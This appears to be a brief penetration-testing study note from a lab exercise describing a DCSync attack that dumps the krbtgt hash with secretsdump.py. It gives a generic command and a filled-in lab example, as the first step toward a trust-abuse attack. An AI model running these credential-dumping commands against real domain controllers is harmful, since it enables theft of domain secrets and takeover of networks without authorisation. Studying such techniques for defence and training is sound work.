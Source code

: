 -- -
#### DCSync Attack krbtgt
Perform a targeted DCSync attack to get the KTBTGT hash. First step of attack chain of [[ExtraSids (Trust)]]
```bash
secretsdump.py <domain>/<user>@<dc ip> -just-dc-user <domain>/krbtgt

secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
```

^c004aa
